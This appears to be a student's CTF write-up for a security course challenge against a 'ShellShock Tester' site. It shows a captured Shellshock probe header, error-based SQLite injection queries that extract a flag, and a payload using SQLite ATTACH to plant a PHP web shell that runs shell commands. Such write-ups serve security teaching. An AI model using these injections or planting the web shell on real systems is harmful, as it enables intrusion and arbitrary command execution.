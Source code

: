 ```yaml
---
title: ShellShock Writeup
category: memo
slug: shellshock-writeup
date: 2014-12-16
---
```

Security Programming Homework 4-1

## Problem Description

The [ShellShock Tester][1] is the website that have some vulnerabilites.
According to the text on the website, the vulnerabilities might not be
ShellShock :(

At the bottom of the website it says "The response will be collected into
database". Maybe SQL injection will work! After trying various types of SQL
injection in that text input field I realized that I'm in the wrong way...

## Look Deeper

The ShellShock Tester must send something to the target website to test if it
has bash vulnerability. Using `nc` to see what are sent from the ShellShock
Tester.

```bash
nc -l -p 5566
```

And it turns out to be the following result:

```text
GET / HTTP/1.1
User-Agent: () { :;}; echo 'ShellShockTester_atdog';
Host: 140.113.235.153:5566
Accept: */*
```

Ah-ha! The string `{ :;}; echo 'ShellShockTester_atdog';` is a typical method to
test if the bash which is currently using is vulnerable to CVE-2014-6271. A
system which is vulnerable will echo the string "ShellShockTester_atdog".
Similarly, the target website which runs CGI program will return the string if
it is vulnerable. So why don't we build a fake HTTP server to fool the
ShellShock Tester?

Building a simple HTTP server using python module [Flask][2]. It returns the
string when the ShellShock Tester queried for the index page. It seems that the
ShellShock Tester stores the response returned from the target website into its
database using `insert`. At the time the type of the database is still unknown.

So I append a single quote right after the string, and the result showed on the
ShellShock Tester is:

```text
DATABASE Msg: unrecognized token: "'ShellShockTester_atdog'')"

Response: ShellShockTester_atdog'
```

Google for the error message, it says that it seems to be SQLite 3. On the other
hand, all error messages will showed means that we can use error-based SQL
injection.

## Error-based SQL Injection

Most of the error-based SQL injection methods are based on MySQL. But this time,
it is SQLite... Fortunately, I found a forum post which talks about SQLite
error-based injection, how lucky!

First, create a virtual table:

```sql
CREATE VIRTUAL TABLE v1 USING fts3(x);
```

To know which table and column contain the flag:

```sql
SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT sql FROM sqlite_master);
```

And finally, the flag showed up:

```sql
SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT flag FROM oyoyoyoy_____1111flag);
```

The queries listed above should be embedded into the sophisticatedly crafted
string. Using Python's format string will look like this:

```python
trick = 'ShellShockTester_atdog\'); {} --'
inj = 'create virtual table v1 using fts3(x);'
resp = trick.format(inj)
```

## Inject a Backdoor

Another method to pwn the ShellShock Tester is to place a backdoor in the
directory of the website.

```python
trick = 'ShellShockTester_atdog\'); {} --'
inj = 'ATTACH \'./lol.php\' AS lol; CREATE TABLE lol.pwn (dataz TEXT); INSERT INTO lol.pwn (dataz) VALUES (\'<pre><?php system($_GET["cmd"]); ?></pre>\');'
resp = trick.format(inj)
```

This will build a backdoor called `lol.php`. So anyone can visit that page along
with a "GET" argument `cmd`. The value of `cmd` could be any shell command. The
reason is that `ATTACH` command will attach a SQLite database. If the database
does not exist, it create the database which is a PHP file. The file's content
contains a short piece of PHP code showed above.

Simply visit the page <http://tor.atdog.tw:8888/lol.php?cmd=ls>, it will list
every file in the current directory. And there is the SQLite database! Download
it and grab the flag!

## Flag

The flag is:

```text
SecProg{SQL1teInject1on_yoooo}
```

## References

-  [Select Queries][3]
-  [SQLite 3 error-based injection][4]
-  [SQLite3 Injection Cheat Sheet][5]
-  [SQLite Injection \| Hits from the bits][6]

[1]: http://tor.atdog.tw:8888/index.php
[2]: http://flask.pocoo.org
[3]: http://sqlite.awardspace.info/syntax/sqlitepg03.htm
[4]: https://rdot.org/forum/showthread.php?p=26419
[5]: http://atta.cked.me/home/sqlite3injectioncheatsheet
[6]: http://gwae.trollab.org/sqlite-injection.html
